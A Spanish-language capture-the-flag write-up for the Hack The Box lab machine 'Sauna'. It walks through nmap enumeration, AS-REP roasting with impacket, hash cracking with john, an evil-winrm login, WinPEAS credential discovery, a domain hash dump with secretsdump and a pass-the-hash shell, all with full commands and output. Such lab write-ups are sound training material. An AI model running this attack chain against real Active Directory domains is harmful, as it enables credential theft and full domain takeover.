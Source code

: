 
<p align="center">
<img src="https://pbs.twimg.com/media/EQplyVRXUAAx0Ij.jpg">
</p>

Sauna es una máquina Windows de dificultad fácil en la cual se va a realizar un ataque de AS-REP-Roasting y en la fase de escalamiento de privilegios enumeración con la herramienta WinPEAS donde encontramos una contraseña y posteriormente hacer el volcado de los hashes de las contraseña del Domain Controller.


## Reconocimiento y Enumeración

### Ping

En primer lugar se debe revisar que la máquina esté activa. Hacemos un ping usando el siguiente comando:
`ping -c 1 sauna.htb`

- `-c <n>` = realizar *n* veces el ping

### Nmap

Se procede a realizar un escaneo de todos los puertos con la herramienta nmap usando el siguiente comando:
`nmap -p- --open -T5 -v -n sauna.htb -oG all-ports`

- `-p-:` escanea todos los 65536 puertos
- `--open:` solo se va a tener en cuenta los puertos abiertos
- `-T5:` establece la plantilla de temporización, el rango es entre 0-5 y por lo tanto, el escaneo va a ir a una mayor velocidad
- `-v:` cuando nmap descubre un puerto, lo imprime por consola
- `-n:` se desactiva la resolución de DNS
- `-oG:` el archivo se va a guardar en formato grepable 

El output de nmap es el siguiente:

```console
┌─[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Sauna]           
└──╼ $nmap -p- --open -T5 -v -n sauna.htb -oG all-ports                
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-17 11:53 EDT

PORT      STATE SERVICE                    
53/tcp    open  domain                       
80/tcp    open  http                 
88/tcp    open  kerberos-sec   
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
9389/tcp  open  adws
```

Una vez se sabe qué puertos están abiertos en la máquina objetivo se procede a revisar las versiones de los servicios usando el comando:
`nmap -sC -sV -p80,135,139,389,445 sauna.htb -oN targeted.txt`

- `-sC:`  realiza un escaneo usando los scripts por defecto que se encuentran en la base de datos de nmap.
- `-sV:` intenta encontrar la versión del servicio que está corriendo en el puerto correspondiente.
- `-p:` se establece los puertos que deseo hacer el escaneo.
- `oN:` el archivo se va a guardar en un formato normal, en este caso en formato de texto.

El output de nmap es el siguiente:

```console
┌─[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Sauna]           
└──╼ $nmap -sC -sV -p80,135,139,389,445 sauna.htb -oN targeted.txt   
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-17 11:56 EDT

PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0                           
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp open  microsoft-ds?
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows


Host script results:
|_clock-skew: 7h00m54s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-06-04T22:40:33
|_  start_date: N/A
```

Algunos de los puertos que están abiertos corresponde a los siguientes servicios:

- `Puerto 80 (HTTP):` se utiliza para la navegación web de forma no segura.
- `Puerto 445 (SMB):` compartir archivos a través de una red TCP/IP Windows.

### Enumeración HTTP

Revisando el sitio web, nos dirigimos a la pestaña `About us` y al final encontramos el nombre de varias personas, así que procedemos a crear un diccionario con diferentes combinaciones posibles de usuarios, así como se presenta a continuación

```bash
fergussmith
smithfergus
fsmith
ferguss
fergus-smith
f.smith
fergus.smith
shauncoins
coinsshaun
scoins
shaunc
shaun-coins
hugobear
bearhugo
hbear
hugob
hugo-bear
h.bear
hugo.bear
bowietaylor
taylorbowie
btaylor
bowiet
bowie-taylor
b.taylor
bowie.taylor
sophiedriver
driversophie
sdriver
sophied
```




## Explotación

Usando el script `GetNPUsers.py` de [impacket](https://github.com/SecureAuthCorp/impacket) podemos extraer el hash de los usuarios que en el Active Directory tengan habilitada la opción de no permitir pre-autenticación de Kerberos.

```console
┌──[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Sauna]
└──╼ $python3 /opt/impacket/examples/GetNPUsers.py EGOTISTICALBANK/ -usersfile usuarios.txt -format john -outputfile hashes.asreproast 
-dc-ip sauna.htb                                                                                                                       
Impacket v0.9.22.dev1+20200603.152956.fe40cb04 - Copyright 2020 SecureAuth Corporation
```

Abrimos el archivo `hashes.asreproast` y encontramos que está el hash del usuario `fsmith`

```
┌─[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Sauna]
└──╼ $cat hashes.asreproast 
$krb5asrep$fsmith@EGOTISTICALBANK:5bcbf870635e6fa3f045b33d7024e87b$98a81453df923b5ee80e6d51ea48611c44ed257c0972d9d5e5a08cdd3911ee519db89a9629bde7f02cb02c1c39f6c1d46a53ad7b565f08be74c007fcea137354b10e4041ec678d95e216b9163ff0cab491b19280714b939b7758369859105a7fde84520feefa5d03f4520a7e4635603cbfc01b3507164206351ea92302a45f6e738f38ea6828555996d7ef91dade424a4cb971850032a2f919b008d8e19b8c80ceecad5c01438c97ec12ffc2bd1c50e1d80ecf8190d017f6129f9f54ca50dec1a0b2a7afddfe00e57a396c177e330cdd9e12fb629657a4ef5df25f25727ba60f54e25edef7882f65096ae6bb01779c949b30bbf8e838071f7b
```

Usando la herramienta `john` vamos a crackear el hash encontrado anteriormente 

```
┌─[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Sauna]
└──╼ $sudo john --wordlist=/usr/share/wordlists/rockyou.txt hashes.asreproast 
[sudo] password for nicolasmira101: 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Thestrokes23     ($krb5asrep$fsmith@EGOTISTICALBANK)
1g 0:00:00:41 DONE (2020-06-04 11:12) 0.02437g/s 256854p/s 256854c/s 256854C/s Thing..Thereisnospoon
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

Nos conectamos vía evil-winrm usando las credenciales encontradas anteriormente del usuario `fsmith` y ya obtendremos la flag del usuario

```bash
┌─[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Sauna]
└──╼ $evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\FSmith\Documents> type ../Desktop/user.txt
1b5520...........................
```




## Escalamiento de privilegios

Descargamos y luego transferimos a la máquina Windows, la herramienta [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe/winPEAS/bin/Obfuscated%20Releases) para realizar la enumeración del sistema y nos damos cuenta que arroja una contraseña

```bash
*Evil-WinRM* PS C:\Users\FSmith\Documents> upload /opt/winPEASx64.exe
Info: Uploading /opt/winPEASx64.exe to C:\Users\FSmith\Documents\winPEASx64.exe

*Evil-WinRM* PS C:\Users\FSmith\Documents> ./winPEASx64.exe

[+] Looking for AutoLogon credentials(T1012)            
Some AutoLogon credentials were found!!  
DefaultDomainName             :  EGOTISTICALBANK
DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
DefaultPassword               :  Moneymakestheworldgoround!
```

Ahora, con la herramienta `impacket-secretsdump` vamos a hacer el volcado de los hashes de las contraseñas del Domain Controller y como podemos observar en la siguiente consola, ya tenemos el hash de la contraseña del `Administrator`

```bash
┌─[root@parrot]─[/opt]            
└──╼ #impacket-secretsdump "egotistical-bank.local/svc_loanmgr:Moneymakestheworldgoround!"@10.10.10.175 -dc-ip 10.10.10.175            
Impacket v0.9.22.dev1+20200603.152956.fe40cb04 - Copyright 2020 SecureAuth Corporation 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                        
[*] Using the DRSUAPI method to get NTDS.DIT secrets                                                                                   
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
```

Finalmente usamos el comando `wmiexec` de impacket para abrir una shell semi-interactiva utilizando WMI (Windows Management Instrumentation). De esta forma, ya obtendremos la flag del Administrator.

```bash
┌──[root@parrot]─[/opt]                                    
└──╼ #impacket-wmiexec -hashes :d9485863c1e9e05851aa40cbb4ab9dff Administrator@10.10.10.175
Impacket v0.9.22.dev1+20200603.152956.fe40cb04 - Copyright 2020 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
egotisticalbank\administrator

C:\>type C:\Users\Administrator\Desktop\root.txt
f3ee04...........................
```

````

````
